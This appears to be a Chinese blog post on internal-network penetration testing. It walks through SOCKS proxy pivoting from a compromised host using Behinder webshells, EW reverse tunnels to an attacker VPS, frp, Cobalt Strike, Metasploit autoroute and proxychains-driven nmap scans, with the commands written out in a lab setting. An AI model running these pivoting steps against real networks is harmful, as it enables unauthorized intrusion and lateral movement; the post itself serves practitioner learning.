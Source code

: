 ```yaml
---
title: 几种socks代理测试
date: 2020-05-19 21:02:50
categories: 内网渗透
tags: 代理
---
```


#### socks代理在内网渗透中的作用

当我们拿下了一个目标A，目标的网络环境可能存在两情况

1. 目标A处于公网，但有其它设备B与A相连接，我们可以访问A，无法访问B,但A可以访问B。
2. 目标A处于内网，通过NAT或端口映射将80或者443端口转发到公网上，同样A在内网与其他机器相连并可以相互访问

<!--more-->

此时，我们便可通过socks代理将我们的流量通过被控制的A设备代理到内网来访问内网的资源，如3389，或内网的web服务，省去了端口转发的麻烦。socks代理目前有socks 4 和socks 5两种类型，socks 4只支持TCP协议，而socks 5支持TCP/UDP协议，还支持各种身份验证机制等协议。但貌似不支持ICMP协议，所以使用代理加Nmap的时候就得注意了。

#### 环境

攻击机与靶机在两个完全不同的内网环境，为了模拟服务器处在内网的环境，将靶机的80端口转发到了公网的80端口上，通过配置的域名可以顺利访问到内网靶机的80端口。

![](http://cdn.laohuan.art/Snipaste_2020-05-13_19-45-49.png)

#### 冰蝎

1. 使用冰蝎连接上一句话木马

   ![](http://cdn.laohuan.art/Snipaste_2020-05-13_19-48-52.png)

2. 打开冰蝎的socks代理，监听10086端口

![](http://cdn.laohuan.art/Snipaste_2020-05-13_19-49-14.png)

3. 配置proxifier,设置socks5为127.0.0.1,监听端口和冰蝎保持一致为10086，代理规则里将浏览器加入

   ![](http://cdn.laohuan.art/Snipaste_2020-05-13_19-53-41.png)

此时便可通过火狐浏览器访问内网的web服务，但作者实际测试中并不能顺利访问到内网的web服务，经作对比发现jsp环境可用socks代理访问内网环境，而php环境则不能。

#### EW

使用EW需要有一个公网IP

1. 首先在公网vps上执行如下命令

   `sudo ./ew_for_linux64 -s rcsocks -l 3950 -e 3951`

   ![](http://cdn.laohuan.art/Snipaste_2020-05-13_20-13-39.png)

此命令将3950端口收到的请求转发到3951端口

2. 在肉机上执行

   `./ew_for_linux64 -s rssocks -d x.x.x.x(公网vps) -e 3951`

   ![](http://cdn.laohuan.art/2020-05-13_20-21.png)

3. 编辑proxychains文件

   `nano /etc/proxychains.conf`

   在最后面加上我们的socks代理

   `socks5 x.x.x.x(公网vps) 3950`

4. 访问内网

   `proxychains curl 192.168.88.1`

   192.168.88.1为内网的路由器管理地址

   ![](http://cdn.laohuan.art/2020-05-18_21-31.png)

#### Frp

1. 在公网vps编辑服务端frps.ini文件

   ![](http://cdn.laohuan.art/Snipaste_2020-05-20_21-29-43.png)

   * bind_port 为监听端口
   * token可设可不设，若设置则服务端的token和客户端的token必须保持一致

2. 编辑客户端(靶机)frpc.ini

   ![](http://cdn.laohuan.art/Snipaste_2020-05-16_15-18-00.png)

* server_addr为公网vps的ip
* server_port: 公网vps的监听端口
* remote_port :待会设置代理的时候就需要设置成这个端口

3. 启动frp

   服务端：

   `sudo ./frps -c frps.ini`

   客户端（靶机）:

   `frpc.exe -c frpc.ini`

4. 设置代理

   攻击机配置proxychains.conf文件，socks代理的ip为公网vps的ip，端口为remoet_port所设置的端口

5. 使用代理扫描内网

   `proxychains3 nmap -sT -Pn -n -p80,22,23,443,445` 192.168.88.1

    ![](http://cdn.laohuan.art/2020-05-16_15-16.png)

此处使用nmap要注意-sT 和-Pn参数，不然无法扫描，其次也建议扫描常用端口，不推荐全端口扫描，否则速度过慢。

#### cobaltstrike

1. 通过 **[beacon]** → **Pivoting** → **SOCKS Server** 来在你的团队服务器上设置一个 SOCKS4a 代理服务器。或者使用 socks 8080 命令来在端口 8080 上设置一个 SOCKS4a 代理服务器（或者任何其他你想选择的端口）

![](http://cdn.laohuan.art/2020-05-16_16-44.png)

2. 配置proxychains.conf文件即可通过socks代理访问内网，同样可以复制以上配置到msf中，利用msf畅游内网。

   ```
   setg Proxies socks4:team server IP:proxy port
   setg ReverseAllowProxy true
   ```

   使用proxychains打开浏览器访问内网

   `proxychains firefox`

   ![](http://cdn.laohuan.art/Snipaste_2020-05-13_20-24-16.png)

   

   #### metasploit

   当我们得到一个meterpreter时，可通过添加路由，再添加socks代理，将流量通过socks代理进目标内网，笔者之前直接添加socks代理并无法访问内网，也困扰了一段时间，之后才发现添加路由后才能正常使用。当然要说一点，msf添加路由之后就能扫描内网了。

   1. 添加路由

      查看目标网段

      `run get local subnets`

      添加路由

      `run autoroute -s 192.168.88.0/24`

      查看添加的路由

      `run autoroute -p`

      ![](http://cdn.laohuan.art/Snipaste_2020-05-18_21-14-07.png)

   2. 启动socks4

      `use auxiliary/server/socks4a`

      `set srvport 3950`

      ![](http://cdn.laohuan.art/Snipaste_2020-05-18_21-17-57.png)

   3. 配置proxychains.conf

      `socks4 127.0.0.1 3950`

      

#### 总结

socks代理在内网渗透中有很大的作用，由于图片放在第三方云，整理较麻烦，所以我放了较少的图片，而代码部分会尽量打出来。这也算是我对socks代理使用的一次总结，另外，冰蝎socks代理在php环境无法测试成功的原因欢迎小伙伴提出交流。

#### 参考链接

<https://www.anquanke.com/post/id/85494/>

